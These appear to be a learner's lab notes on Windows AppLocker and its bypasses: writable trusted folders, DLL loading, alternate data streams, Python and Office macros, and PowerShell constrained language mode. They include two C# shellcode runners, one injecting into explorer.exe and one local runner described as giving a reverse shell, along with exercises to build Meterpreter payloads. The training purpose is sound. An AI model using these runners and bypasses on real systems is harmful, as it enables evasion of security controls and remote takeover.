


# Application whitelisting

This explores application whitelisting and living off the land
(LOLBINS and LOLBAS techniques)

# Application whitelisting theory and setup

Application whitelist is difficult to manage as a scale. 

typical applications include
1. kernel mode filter drivers
2. native kernel APIs

# Application whitelisting Theory

The native Microsoft whitelisting implementation leverages a kernel-mode filter driver and various 
native kernel APIs.
Specifically, the Microsoft kernel-mode PsSetCreateProcessNotifyRoutineEx422 API registers a 
notification callback which allows the execution of a provided kernel-mode function every time a 
new process is created. Application whitelisting software uses a custom driver to register a 
callback function through this API. This callback is then invoked every time a new process is 
created and it allows the whitelisting software to determine whether or not the application is 
whitelisted

If the software determines that the application is allowed process creation completes and the code will execute. On the other hand if the application is not allowed process will terminate.

microsoft uses Applocker

which include kernel mode driver APPID.SYS and APPIDSVC user mode service. 

APPIDSVC manages the whitelisting ruleset and identifies application when they are run based on the callback notifications form APPID.SYS

latest whitelisting solution is WDAC (WIndows Defender Application Control WDAC) which produces whitelisting actions in both user mode and kernel mode

# AppLocker setup and rules

There are three primary AppLocker rule categories, which can be combined as needed. The first 
and most simple rule is based on file paths.430 This rule can be used to whitelist a single file based 
on its filename and path or recursively include the contents of a directory.

The second rule type is based on a file hash431 which may allow a single file to execute regardless 
of the location. To avoid collisions, AppLocker uses a SHA256 Authenticode hash.

The third rule type is based on a digital signature,432 which Microsoft refers to as a publisher. This 
rule could whitelist all files from an individual publisher with a single signature, which simplifies 
whitelisting across version updates

we can launch gpedit.msc, which is the GPO configuration manager

```ms
In the local group policy editor
In the Local Group Policy Editor, we’ll navigate to Local Computer Policy -> Computer 
Configuration -> Windows Settings -> Security Settings -> Application Control Policies and select 
the AppLocker item
```
configure rules
enfore all and selection default rules to enable whitelisting protection.

after updating rules

we use

`gpupdate /force` to enforce the rules.

we can `copy C:\Windows\System32\calc.exe calc2.exe`

on running form new user m. open cmd.exe and press shift opena s a different user

### creating a deny all rule

maybe it is required to create a deny all rule so that after all is allowed it does not allow execution from elsewhere. 


### 8.1.2.1 Exercises
1. Configure default rules for all four categories of file types and enable AppLocker on your 
Windows 10 victim VM.

done

2. Copy an executable to a location outside the whitelisted folders and observe how it is 
blocked by AppLocker when executing it.

same as 

how ever after switing gui in as user 
now the calculator is opening everytime indicating applocjer does not work

3. Create a small Jscript script, store it outside the whitelisted folders and execute it. Is it 
blocked?
The script executes

# Basic Bypasses

we look at poor configuration enforced through default rules.

# Trusted folders

The default rules for AppLocker whitelist all executables and scripts located in 

C:\Program Files, C:\Program Files (x86), and C:\Windows. 

This is a logical choice since it is assumed that non-admin users cannot write executables or scripts into these directories.
In this section, we will put this assumption to the test as we construct our first (albeit very simple) 
AppLocker bypass.
In theory, we should be able to execute a program or script in a subdirectory that allows both 
write and execute. If we can find writable and executable folders on a development machine, we 
can reuse the bypass later on a compromised machine which has the same rules applied.
To locate user-writable folders, we’ll use AccessChk from SysInternals,435 which is located in 
C:\Tools\SysInternalsSuite on our Windows 10 victim VM. For this test, we’ll execute it from an 
administrative command prompt to avoid potential AppLocker restrictions.

accesschk.exe "m" C:\Windows -wus

```
RW C:\Windows\Panther
RW C:\Windows\Tasks
RW C:\Windows\tracing
RW C:\Windows\Logs\PBR
...
```

examinig one of these directories 

```cli
C:\Users\misthios\Documents\sysinternals>icacls.exe C:\Windows\Tasks
C:\Windows\Tasks NT AUTHORITY\Authenticated Users:(RX,WD)
                 BUILTIN\Administrators:(F)
                 BUILTIN\Administrators:(OI)(CI)(IO)(F)
                 NT AUTHORITY\SYSTEM:(F)
                 NT AUTHORITY\SYSTEM:(OI)(CI)(IO)(F)
                 CREATOR OWNER:(OI)(CI)(IO)(F)

Successfully processed 1 files; Failed processing 0 files
```

trying to copy and run calc.exe in Tasks folder


but after switching user graphically it is now running.


## Applocker not running on win10 pro

applocker has requirements that it runs only in enterprise windows versions.

Application and Services Logs\Microsoft\Windows, click AppLocker.

in there in the log entries you can find that applocker doesnot work with SKU


### 8.2.1.1 Exercises
1. Repeat the analysis to verify that C:\Windows\Tasks is both writable and executable for the 
“student” user. Execute a copied executable from this directory.

it is running but running from everywhere.

1. Locate another directory in C:\Windows that could be used for this bypass.

`C:\Windows\Panther`

2. Copy a C# shellcode runner executable into one of the writable and executable folders and 
bypass AppLocker to obtain a reverse shell.


```dotnetcli
using System;
using System.Diagnostics;
using System.Runtime.InteropServices;
namespace Inject
{
    class Program
    {
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, int
       processId);
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint
       dwSize, uint flAllocationType, uint flProtect);
        [DllImport("kernel32.dll")]
        static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress,
       byte[] lpBuffer, Int32 nSize, out IntPtr lpNumberOfBytesWritten);
        [DllImport("kernel32.dll")]
        static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr
       lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint
       dwCreationFlags, IntPtr lpThreadId);
        static void Main(string[] args)
        {
            Process[] localByName = Process.GetProcessesByName("explorer");
            Console.WriteLine(localByName);
            IntPtr hProcess = OpenProcess(0x001F0FFF, false, localByName[0].Id);
            IntPtr addr = VirtualAllocEx(hProcess, IntPtr.Zero, 0x1000, 0x3000, 0x40);
            byte[] buf = new byte[582] {
                0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xcc,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,
                0x51,0x56,0x48,0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,0x48,0x8b,0x52,0x18,0x48,
                0x8b,0x52,0x20,0x4d,0x31,0xc9,0x48,0x8b,0x72,0x50,0x48,0x0f,0xb7,0x4a,0x4a,
                ...0x89,0xda,0xff,0xd5 };
            IntPtr outSize;
            WriteProcessMemory(hProcess, addr, buf, buf.Length, out outSize);
            IntPtr hThread = CreateRemoteThread(hProcess, IntPtr.Zero, 0, addr,IntPtr.Zero, 0, IntPtr.Zero);
        }
    }
}
```

shellcode injector might not work because of the fact that explorer.exe might be running with system so we will put a simpler program

```dotnetcli
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Threading.Tasks;
using System.Diagnostics;
using System.Runtime.InteropServices;
namespace ConsoleApp1
{
    class Program
    {
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint
       flAllocationType, uint flProtect);
        [DllImport("kernel32.dll")]
        static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize,
       IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
        [DllImport("kernel32.dll")]
        static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32
       dwMilliseconds);
        static void Main(string[] args)
        {
            byte[] buf = new byte[582] {
                0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xcc,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,
                0x51,0x56,0x48,0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,0x48,0x8b,0x52,0x18,0x48,
                ...,0x0a,0x41,0x89,0xda,0xff,0xd5 };
            int size = buf.Length;
            IntPtr addr = VirtualAlloc(IntPtr.Zero, 0x1000, 0x3000, 0x40);
            Marshal.Copy(buf, 0, addr, size);
            IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0,
IntPtr.Zero);
            WaitForSingleObject(hThread, 0xFFFFFFFF);
        }
    }
}
```

this creates a reverse shell.

4. Create a custom AppLocker rule to block the folder C:\Windows\Tasks. Make it a path rule 
of type deny. Consult the online documentation if needed

deny rule.


# Completed till here but realised applocker was not working

lets skip to next chapter then.

# bypass with DLLs

The default ruleset doesn’t protect against loading arbitrary DLLs. If we 
were to create an unmanaged DLL, we would be able to load it and trigger exported APIs to gain 
arbitrary code execution.

```c
// dllmain.cpp : Defines the entry point for the DLL application.
#include "pch.h"

#include <Windows.h>

BOOL APIENTRY DlMain(HMODULE hModule,
	DWORD ul_reason_for_call,
	LPVOID lpReserved)
{
	switch (ul_reason_for_call)
	{
	case DLL_PROCESS_ATTACH:
	case DLL_THREAD_ATTACH:
	case DLL_THREAD_DETACH:
	case DLL_PROCESS_DETACH:
		break;
	}
	return TRUE;
}

extern "C" __declspec(dllexport) void run()
{
	MessageBoxA(NULL, "Execution happened", "Bypass", MB_OK);
}
```


Although this is basic code, it demonstrates that DLLs are not restricted by the current AppLocker 
rules.
We can, however, enforce DLL whitelisting with AppLocker, again through the Local Group Policy 
Editor. Let’s do that now.
Reopening the rule enforcement window in the group policy editor, we’ll click the “Advanced” tab. 
This presents a warning about system performance issues related to DLL whitelisting 
enforcement and offers the option to enable it.
After checking “Enable the DLL rule collection” and clicking Apply, we’ll return to the original 
“Enforcement” tab which presents a new entry related to DLLs

not working the dll are still executing


### 8.2.2.1 Exercises
1. Bypass AppLocker by executing the proof-of-concept DLL C:\Tools\TestDll.dll, as shown in 
this section.

  

2. Generate a Meterpreter DLL with msfvenom and use that together with rundll32 to bypass 
AppLocker to obtain a reverse shell.
3. Enable default rules for DLLs and verify that the Meterpreter DLL is blocked.

### 8.2.2.2 Extra Mile
Examine the default Windows Installer rules and determine how it would be possible to bypass 
those

# Alternate Data Streams

NTFS supports multiple streams

we created ./test.js

le, TeamViewer version 12, which is installed on the Windows 10 victim machine, uses 
a log file (TeamViewer12_Logfile.log) that is both writable and executable by the student user. We 
can use the native type439 command to copy the contents of test.js into an alternate data stream 
of the log file with the : notation:

to create alternate stream :

```
>type test.js > "C:\Program Files 
(x86)\TeamViewer\TeamViewer12_Logfile.log:test.js"
```

we vrify whther the data was wrtten or not

data is not written.

### 8.2.3.1 Exercises
1. Repeat the exercise to embed simple Jscript code inside an alternative data stream to 
obtain execution.
2. Replace the current Jscript code with a DotNetToJscript shellcode runner and obtain a 
Meterpreter reverse shell

not done as lg file not available

# Third Party Execution

To demonstrate this, we’ll create a small Python script and execute it:
```
C:\Users\student>echo print("This executed") > test.py
C:\Users\student>python test.py
```
This executed
Listing 336 - Bypassing AppLocker with Python
The output from Listing 336 shows that AppLocker may easily be bypassed through a third-party 
scripting engine, but of course, it must be previously installed, which is rare in most traditional 
environments

Even more interesting is the lack of enforcement against VBA code inside Microsoft Office 
documents. If a Microsoft Office document is saved to a non-whitelisted folder, AppLocker 
cannot restrict execution of its embedded macros, allowing for reuse of our previously developed 
tradecraft. This highlights the usefulness of Office documents in client-side attacks.

### 8.2.4.1 Exercise
1. Generate a Python reverse Meterpreter payload with msfvenom and use that to bypass 
AppLocker and get a reverse Meterpreter shell.

# Bypassing AppLocker with PowerShell

In previous sections we executed simple bypasses. In the remaining sections, we will investigate 
advanced and increasingly complex bypasses and reuse previously-developed tradecraft that 
bypasses non-standard AppLocker rulesets.
Our previously developed tradecraft relied heavily on PowerShell which, as previously 
demonstrated, can easily bypass detection mechanisms like AMSI. In this section, we will analyze 
the various restrictions Applocker places on PowerShell and demonstrate various bypasses

# Powershell constrained language mode

weak protection mechanism can be easily bypassed with the built in "Bypass" execution policy. 

To address this, Microsoft introduced the ConstrainedLanguage mode (CLM) with PowerShell 
version 3.0. When AppLocker (or WDAC) is enforcing whitelisting rules against PowerShell scripts, 
ConstrainedLanguage is enabled as well

Under ConstrainedLanguage, scripts that are located in whitelisted locations or otherwise comply 
with a whitelisting rule can execute with full functionality. However, if a script does not comply 
with the rules, or if commands are entered directly on the command line, ConstrainedLanguage
imposes numerous restrictions.

```
PS C:\Users\m\Documents\sysinternals> [Math]::Cos(1)
0.54030230586814
```

PS C:\Users\m\Documents\sysinternals> $ExecutionContext.SessionState.LanguageMode
FullLanguage

cant check because it comes out to be FUll Language.

### 8.3.1.1 Exercises
1. Verify that constrained language mode is enabled for a PowerShell prompt executed in the 
context of the “student” user.

2. Check if our existing PowerShell shellcode runner is stopped once constrained language 
mode is enabled.


